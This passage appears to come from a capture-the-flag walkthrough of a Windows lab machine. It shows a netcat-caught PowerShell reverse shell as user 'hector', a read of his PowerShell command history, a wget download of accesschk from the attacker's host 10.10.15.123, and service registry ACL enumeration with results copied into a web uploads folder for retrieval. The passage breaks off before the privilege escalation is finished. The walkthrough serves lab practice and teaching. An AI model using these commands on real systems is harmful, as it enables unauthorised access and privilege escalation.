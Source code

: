 ```
$ nc -nlp 10000
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Hector\Documents> whoami
control\hector

PS C:\Users\Hector> gc Desktop\user.txt
d8782dd01fb15b72c4b5ba77ef2d472b
```

### Privilege Escalation : hector to system

**TL;DR**: bin path SYSTEM service exploit

We can see if hector has a command history.

```
PS C:\Users\Hector> Get-Content C:\Users\Hector\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
get-childitem HKLM:\SYSTEM\CurrentControlset | format-list
get-acl HKLM:\SYSTEM\CurrentControlSet | format-list
```

Fine, it seems to be a clue, we must have to look at services.

```
PS C:\Users\Hector> get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "Hector Users Path Everyone"
```

There are dozens services where hector has full control, let's find one that `iusr` can restart.

Let's try with a sysinternal tool.

```
$ cp /usr/share/windows/sysinternals-suite/accesschk64.exe .
```

```
PS C:\Users\Hector\Videos> powershell -nop -c "wget http://10.10.15.123:8080/accesschk64.exe -OutFile cyfun.exe"

.\cyfun.exe -uwcqv Hector * /accepteula
```

But access denied because it tries to open Service Control Manager.

Get all services:

```
PS C:\Users\Hector\Videos> reg query hklm\system\currentcontrolset\services > cyfun.txt
PS C:\Users\Hector\Videos> copy cyfun.txt C:\inetpub\wwwroot\uploads\cyfun.txt
$ cat services_fullpath.txt| cut -d '\' -f 5 > services.txt
```

Get services owners and who can modify them.

```
PS C:\Users\Hector\Videos> get-acl HKLM:\System\CurrentControlSet\services\* | Format-List PSChildName,Owner,Group,AccessToString | Out-String -Width 300 > cyfun.txt
PS C:\Users\Hector\Videos> copy cyfun.txt C:\inetpub\wwwroot\uploads\cyfun.txt
```
